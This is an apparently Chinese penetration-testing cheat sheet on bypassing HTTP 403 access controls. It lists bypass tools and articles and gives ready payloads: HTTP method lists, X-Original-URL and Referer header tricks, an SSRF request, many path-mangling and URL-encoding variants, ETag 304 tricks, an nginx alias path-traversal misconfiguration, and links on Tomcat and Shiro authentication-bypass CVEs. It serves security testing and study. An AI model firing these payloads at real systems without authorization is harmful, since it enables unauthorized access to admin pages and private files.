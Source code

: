 # 绕过访问

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Tips : Bypass Etag If-None-Match](https://anggigunawan17.medium.com/tips-bypass-etag-if-none-match-e1f0e650a521)
- [记一次403绕过技巧](https://mp.weixin.qq.com/s/_hcVp9u7OIHnYW1l7lQiCQ)

**相关案例**
- [Bypassing 403 Protection To Get Pagespeed Admin Access](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3)

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本
- [Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3) - 403/401 Bypass Methods + Bash Automation
- [devploit/dontgo403](https://github.com/devploit/dontgo403) - Tool to bypass 40X response codes.
- [ffffffff0x/403-fuzz](https://github.com/ffffffff0x/403-fuzz) - 针对 403 页面的 fuzz 脚本
- [sting8k/BurpSuite_403Bypasser](https://github.com/sting8k/BurpSuite_403Bypasser) - Burpsuite Extension to bypass 403 restricted directory
- [lobuhi/byp4xx](https://github.com/lobuhi/byp4xx) - Pyhton script for HTTP 40X responses bypassing. Features: Verb tampering, headers, #bugbountytips tricks and 2454 User-Agents.
- [ivan-sincek/forbidden](https://github.com/ivan-sincek/forbidden) - Bypass 4xx HTTP response status codes and more. Based on PycURL.

**相关资源**
- [GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies) - Reverse proxies cheatsheet
- [CHYbeta/OddProxyDemo](https://github.com/CHYbeta/OddProxyDemo)

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel            # ===> 403
    /admin/monitor          # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin           # ===> 403

    web.com/ADMIN           # ===> 200
    web.com/admin/          # ===> 200
    web.com//admin/         # ===> 200
    web.com/admin;          # ===> 200
    web.com/admin/.         # ===> 200
    web.com/admin/../admin  # ===> 200
    web.com/admin../admin   # ===> 200
    web.com/../admin        # ===> 200
    web.com//admin//        # ===> 200
    web.com/./admin/./      # ===> 200
    web.com/./admin/..      # ===> 200
    web.com/;/admin         # ===> 200
    web.com/.;/admin        # ===> 200
    web.com//;//admin       # ===> 200
    web.com/admin.json      # ===> 200(ruby)

    web.com/%2f/admin/      # ===> 200
    web.com/%2e/admin       # ===> 200
    web.com/%252e/admin     # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin           # ===> 302
    web.com/test/admin      # ===> 200
    web.com/admin..;/       # ===> 200
    ```

- 304 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: target.com
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    GET /admin HTTP/1.1
    Host: target.com
    ```

    ```
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    If-None-Match: W/"null"
    If-None-Match: W/"123-dASdsa2d2212e4d21" a
    ```

---

## nginx

**相关文章**
- [Common Nginx Misconfiguration leads to Path Traversal](https://systemweakness.com/common-nginx-misconfiguration-leads-to-path-traversal-d58701e997bc) - 当 nginx 配置不当时,可使用类似 `/test../private/secret.html` 进行目录穿越
- [案例｜轻松绕过你的Nginx（上篇）](https://mp.weixin.qq.com/s/yDIMgXltVLNfslVGg9lt4g)
- [终极案例｜轻松绕过你的Nginx（下篇）](https://mp.weixin.qq.com/s/34QZSq90Nj5xKjG1yTGvZw)

```
root /var/www/html/public;

location /test/ {
    alias /var/www/html/public/;
}

✔  /test/public.html
❌  /test../private/secret.html
```

```
root /var/www/html/public;

location /test {
    alias /var/www/html/public/;
}

✔  /test/public.html
✔  /test../private/secret.html
```

---

## Tomcat

**相关文章**
- [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
- [tomcat对url请求中的特殊字符处理 分析](https://blog.csdn.net/qq_41891666/article/details/110392483)

---

## shiro

**SHIRO-682 & CVE-2020-1957 | Shiro 权限绕过漏洞**
- 相关文章
    - [Shiro 权限绕过漏洞分析（CVE-2020-1957）](https://blog.riskivy.com/shiro-%e6%9d%83%e9%99%90%e7%bb%95%e8%bf%87%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%ef%bc%88cve-2020-1957%ef%bc%89/)

**SHIRO-782 & CVE-2020-11989**
- 相关文章
    - [Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)
    - [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/)'
    - [CVE-2020-11989：Apache Shiro权限绕过复现](https://mp.weixin.qq.com/s/p1UzULYPoTKf6i_Chcj2VQ)
    - [记一次Apache Shiro权限绕过实战](http://www.0dayhack.net/index.php/554/)
    - [记一次前台任意文件下载漏洞挖掘](https://xz.aliyun.com/t/10328)

**CVE-2020-17523**
- 相关文章
    - [Apache Shiro身份认证绕过漏洞复现(CVE-2020-17523)](https://mp.weixin.qq.com/s/PHBG3wQUIPSrlmX_jsSXbA)
    - [jweny/shiro-cve-2020-17523](https://github.com/jweny/shiro-cve-2020-17523)
